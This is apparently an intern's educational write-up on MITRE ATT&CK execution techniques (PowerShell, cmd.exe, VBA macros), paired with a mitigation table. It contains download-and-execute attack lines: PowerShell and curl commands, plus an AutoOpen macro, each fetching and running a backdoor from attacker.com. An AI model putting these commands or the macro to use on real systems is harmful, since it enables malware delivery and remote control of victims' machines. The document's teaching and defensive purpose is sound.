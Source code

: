 # MITRE ATT&CK PoC – Command and Scripting Interpreter Abuse
Intern: Aenosh
Organization: DigiSuraksha Parhari Foundation

## Tactic: Execution (TA0002)
Goal: Execute attacker-controlled code or commands on the target system.

## Techniques:
- T1059.001 – PowerShell
  - Abuse of PowerShell to run malicious scripts and download payloads.
- T1059.003 – Windows Command Shell
  - Use of cmd.exe for direct execution, downloading, and control.
- T1059.005 – Visual Basic
  - Use of VBScript or VBA macros to trigger execution, usually embedded in Office files.

## Procedures:
### Technique 1 – PowerShell Abuse

1. Attacker prepares remote malicious script:
```powershell
Invoke-WebRequest http://attacker.com/backdoor.exe -OutFile backdoor.exe
Start-Process .\backdoor.exe
```

2. Victim runs this using PowerShell with bypass:
```bash
powershell.exe -NoProfile -ExecutionPolicy Bypass -File payload.ps1
```

3.  Backdoor connects to C2; execution achieved.

### Technique 2 – Windows Command Shell
1. Attacker abuses basic cmd to execute reverse shell or payload:

```powershell
cmd.exe /c curl http://attacker.com/payload.exe -o C:\temp\payload.exe && C:\temp\payload.exe
```

2. Can be triggered from within batch files, services, or other executables.
3. Useful in restricted PowerShell environments or older machines

### Technique 3 – Visual Basic (VBA/Macros)
1. Attacker embeds VBScript inside .doc or .xlsm:

```vb
Sub AutoOpen()
  Shell "powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri http://attacker.com/back.ps1 -OutFile C:\temp\back.ps1; Start-Process C:\temp\back.ps1"
End Sub
```

2. Victim opens doc, enables macro → executes script → triggers backdoor

# Mitigation Strategies:

|Technique  |Mitigation                                                                             |
|-----------|---------------------------------------------------------------------------------------|
|T1059.001  |Enable PowerShell logging (ScriptBlock, Module), disable -ExecutionPolicy Bypass.      |
|T1059.003	|Monitor use of cmd.exe from unusual parent processes (like Office).                    |
|T1059.005	|Disable or restrict macros, use Protected View in MS Office, block VBA in attachments. |

# Why This PoC Works
1. Living-off-the-land: All built-in Windows tools, no exploit needed
2. Used by APTs, ransomware gangs, and pen-testers alike
3. Works in nearly every stage: initial access, privilege escalation, persistence

# References
TA0002 – Execution

T1059.001 – PowerShell

T1059.003 – Command Shell

T1059.005 – Visual Basic

🚀 Final Wrap-Up